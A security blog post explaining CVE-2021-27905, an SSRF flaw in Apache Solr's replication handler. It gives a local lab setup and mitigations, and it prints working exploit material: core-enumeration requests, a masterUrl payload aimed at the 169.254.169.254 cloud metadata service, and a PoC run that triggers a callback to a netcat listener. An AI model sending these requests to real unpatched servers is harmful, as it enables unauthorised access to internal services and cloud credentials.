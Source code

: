 ```yaml
---
title: "CVE-2021-27905"
date: 2025-10-19
draft: false
summary: "Understanding CVE-2021-27905 - Apache Solr SSRF"
tags: ["ssrf", "blog"]
categories: ["blog"]
series: ["cve breakdown"]
showToc: true
---
```


While performing a security assessment, I came across this vulnerability and did some research on what it was and how it could potentially be exploited in real-world scenarios...

Field | Value
-- | --
CVE | CVE-2021-27905
CVSSv3 | 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
Affected Version | Apache Solr <= 8.8.1
Fixed In | Apache Solr 8.8.2
CWE | CWE-918 (SSRF)
Official Advisory | [Apache Solr](https://lists.apache.org/thread/90kct018gfdnvh9wh5xvt0grm9jk2l80)

## About CVE-2021-27905

**CVE-2021-27905** is a Server Side Request Forgery vulnerability affecting **Apache Solr** prior to version **8.8.2** that allows remote attackers to make arbitrary HTTP requests to internal or external systems through the replication handler's `masterUrl` parameter, potentially exposing internal services or sensitive cloud metadata.

> **Note**: The script and lab used in this blog can be found on my [Github](https://github.com/RIZZZIOM/CVE-2021-27905)

## Background

**Apache Solr** is an open-source search platform built on top of **Apache Lucene** (a Java search library). Think of it as a powerful, customizable "search-as-a-service" engine that developers embed in their own applications. It is used for the following reasons:
- **Full-text search:** indexing and searching documents, logs, or websites quickly.
- **Faceted navigation:** like ecommerce filters (brand, price, category).
- **Analytics:** Solr can run queries with aggregations and sorting efficiently.
- **Scalability:** multiple Solr servers can act as a distributed cluster (SolrCloud).

So in most companies, Solr runs inside their internal network, powering searches for websites, product catalogs, enterprise data, or logs.

### Solr Architecture

Solr runs as a Java web service (typically on port 8983). It exposes a REST-like HTTP API; so almost everything we do (search, upload, admin) is an HTTP request. 

| Component      | Description                                                                                                                                              |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Core**       | A single, independent index within a Solr instance. Each core has its own configuration (`solrconfig.xml`, `schema.xml`) and set of indexed data.        |
| **Collection** | In SolrCloud mode, a “collection” is spread across multiple **cores** on different servers (shards + replicas).                                          |
| **Handlers**   | Endpoints defined in `solrconfig.xml` that perform functions, e.g. `/select` for queries, `/update` for adding docs, `/replication` for syncing indexes. |
| **Admin API**  | `/solr/admin/...` endpoints that show info or perform management tasks.                                                                                  |

Since, identifying a valid `core` is crucial for exploiting the vulnerability, let us understand what a Core is...

### Solr `Cores` And Replication Handlers

A `Core` is a self contained search index + its configuration. For example, we might have:

```
/solr/products
/solr/blog
/solr/logs
```

Each of these is a core. Internally, Solr stores each core's data in

```
/var/solr/data/<CORE_NAME>/
```

There are multiple ways to find core names:
1. Admin API: the admin API endpoint can be used to query core names.

```
curl 'http://IP:PORT/solr/admin/cores?indexInfo=false&wt=json'
```

2. Web UI: when Solr runs without authentication, the base UI itself lists cores in the dropdown menu.

![](https://cdn.ziomsec.com/cve-2021-27905/cores_dropdown.webp)

3. Brute force: in many environments, admins follow predictable names like `gettingstarted`, `collection1`, `core0`, `logs`, `products`, `data`, `search` etc. These parts can be brute forced. 

Once we identify a core name, we can construct our replication endpoint. For example, if the core name is `gettingstarted`, the replication endpoint becomes:

```
/solr/gettingstarted/replication
```

Replication is a Solr feature. When we have multiple Solr nodes (leader-follower setup), we need the followers to copy the latest index files from the leader. This is done using the `ReplicationHandler`.

The request made for replication looks like this:

```
http://IP:PORT/solr/<core>/replication?command=fetchindex&masterUrl=http://leader.internal:8983/solr/<core>
```
> The follower fetches index  data from the leader's URL.

**This is where the vulnerability lies...**

### SSRF

The replication feature is handled by 2 main classes inside **`solr-core`**:
1. **`org.apache.solr.handler.ReplicationHandler`** - this parses the incoming replication requests and reads the `masterUrl` / `leaderUrl` from the HTTP request. In the affected versions, these parameters were not validated.
2. **`org.apache.solr.handler.IndexFetcher`** - this uses that URL to perform the actual HTTP request and pull index files from the provided location. 

Because **`ReplicationHandler`** failed to validate the `masterUrl`, attackers could supply any arbitrary URL. If the URL pointed to an external source, Solr would connect to it.

Anyone who could reach the HTTP port, could send a request given below and make Solr fetch an internal resource:

```
http://IP:PORT/solr/gettingstarted/replication?command=fetchindex&masterUrl=http://169.254.169.254/latest/meta-data/
```

This caused Solr to make an outbound request from the server itself, leading to **Server-Side Request Forgery (SSRF)**.

## Exploiting The Vulnerability

### Lab Setup

- A local lab can be setup by running the following commands:

```shell
# clone the repository
git clone https://github.com/RIZZZIOM/CVE-2021-27905.git
cd CVE-2021-27905/lab/ # contains docker-compose.yml

# run Apache Solr 8.10.1 using docker
docker compose up -d

# verify accessibility
docker ps
curl 'http://127.0.0.1:8983/solr'
# By default, the loopback IP is used to host Solr, to make it accessible externally, you can edit the 'docker-compose.yml' file. 
```

> In the lab, since we started Solr for the first time with `solr-precreate gettingstarted`, it automatically created a core named `gettingstarted` using the default configset.

### Blind SSRF

- Since our Solr instance is running on 8983, we can make the server make a callback to another system on the same network.
- Start a netcat listener on a different system:

```shell
nc -lnvp 1337
```

- Then we can run the PoC to get a callback on our **netcat** listener:

```shell
$ python3 cve-2021-27905.py --target http://127.0.0.1:8983 --payload http://192.168.1.103:1337/test
[+] Performing SSRF
[+] SSRF Exploit Sent Successfully
```

![](https://cdn.ziomsec.com/cve-2021-27905/ssrf_callback.webp)

> While researching this topic, I came across a blog post that demonstrates how it's even possible to achieve **RCE** through this method. It's definitely worth a read for anyone interested:  https://www.hacefresko.com/posts/rce-on-solr-server-via-replication

## Mitigations

Solr maintainers patched this vulnerability by fixing the `ReplicationHandler` to:
- Validate that `masterUrl` / `leaderUrl` points only to approved hosts.
- Restrict acceptable URL schemas (`http`, `https`)
- Harden remote streaming features.
- Recommend admins to secure `/replication` with authentication or remove it entirely if unused.

## References

- https://svn.apache.org/repos/infra/sites/solr/docs/8_8_1/solr-core/org/apache/solr/handler/ReplicationHandler.html
- https://nvd.nist.gov/vuln/detail/CVE-2021-27905
- https://github.com/veracode-research/solr-injection
- https://issues.apache.org/jira/browse/SOLR-15217

---

That concludes my blog!
Until next time :)

---

